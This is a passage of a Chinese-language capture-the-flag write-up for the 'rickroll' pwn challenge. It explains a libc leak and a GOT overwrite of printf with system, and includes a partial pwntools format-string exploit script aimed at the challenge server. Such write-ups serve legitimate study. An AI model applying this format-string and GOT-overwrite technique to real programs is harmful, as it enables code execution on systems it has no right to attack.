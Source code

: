 ```python

conn.recvuntil(b"[")
leaked = conn.recvuntil(b"]", drop=True).strip()

print(f"{leaked =}")
```
:::

接下來剩下需求 3 了，需要找一個函式的 GOT 並填入 libc 中的 system 函式

首先先來計算 system 函數，由於我們 leak 出的 return address 在下圖中的位置，因此 system 的位置是在 `leaked - 0x23d0a + elf.libc.sybmols["system"]` 的地方

![](https://i.imgur.com/trTUkLd.png =400x)

接下來勝的問題就是找 GOT 了，可以看到我們並沒有太多選擇，就只有 setbuf, printf, fgets 或 puts 可選，與我們輸入相關的就只有 fgets 和 printf 可選，這邊我只能想到 printf 的解法啦看看另一個有沒有其他大神能夠利用

可以看到改 printf 後雖然有一些奇怪的字串會送進去 system 執行，但是經實驗證實執行這些怪怪字串是不會有任何問題的，可以放心改 printf

總而言之全部的 payload 如下

:::spoiler solve.py
```python
from pwn import *
binary = "./rickroll"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

elf = ELF(binary)

conn = remote("lac.tf", 31135)
# conn = process(binary)
# conn = gdb.debug(binary)

# puts -> main
# main_called -> 0
# also leak the libc
main_called = elf.symbols["main_called"] # 0x40406c
main = elf.symbols["main"] # 0x401152
puts_got = elf.got["puts"] # 0x404018

writecommand_length = 0x70
writeaddr_begin = 0x80

## write command section
payload = f"%{6+writeaddr_begin//8}$n".encode()
num_temp = main
total = 0
for i in range(8):
    writenum = ((num_temp&0xff) - total) & 0xff
    if(writenum != 0):
        payload += f"%{writenum}c".encode()
    payload += f"%{6+writeaddr_begin//8+1+i}$hhn".encode()
    total += writenum
    num_temp //= 0x100
payload = payload.ljust(writecommand_length, b".")
## leak libc section
payload += f"[%{6+256//8+1}$p]".encode()
payload = payload.ljust(writeaddr_begin, b".")
## writeaddr section
payload += p64(main_called)
for i in range(8):
    payload += p64(puts_got+i)
```